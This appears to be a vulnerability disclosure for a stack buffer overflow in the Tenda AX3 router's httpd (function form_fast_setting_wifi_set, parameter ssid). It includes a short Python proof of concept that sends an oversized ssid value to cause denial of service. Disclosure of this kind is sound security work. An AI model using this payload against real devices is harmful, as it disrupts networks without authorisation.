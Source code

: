 Information
===========

**Vendor of the products**: Tenda <br>

**Vendor's website**: https://www.tenda.com.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: Tenda AX3 <br>

**Affected firmware version**: V16.03.12.11 <br>

**Firmware download address**: https://www.tenda.com.cn/download/detail-3476.html <br>

Overview
===========

**Tenda AX3 V16.03.12.11** has a **stack buffer overflow** vulnerability detected at function **form_fast_setting_wifi_set**. This vulnerability allows attackers to cause a Denial of Service (DoS) via the devName parameter **ssid**. <br>

Vulnerability details
=====================
The vulnerability is detected at **/bin/httpd** <br>

In the function **form_fast_setting_wifi_set**, the content obtained by program through parameter **ssid** given by http is passed to variable **v5**. Then, the variable **v5** is equal to the variable **v6**, and the content of **ssid** will be copyed to the variable **par**.However,**par** is on the stack,but there isn't any length check of **v6**.. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/Tenda/AX3/img/0.png) <br>

<br>

Proof of Code
====================
```python
from pwn import *
import requests

url = "http://192.168.0.1/goform/fast_setting_wifi_set"

payload = "a"*0x1000
data = {
    "ssid": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```


Attack Demo
========
<br>



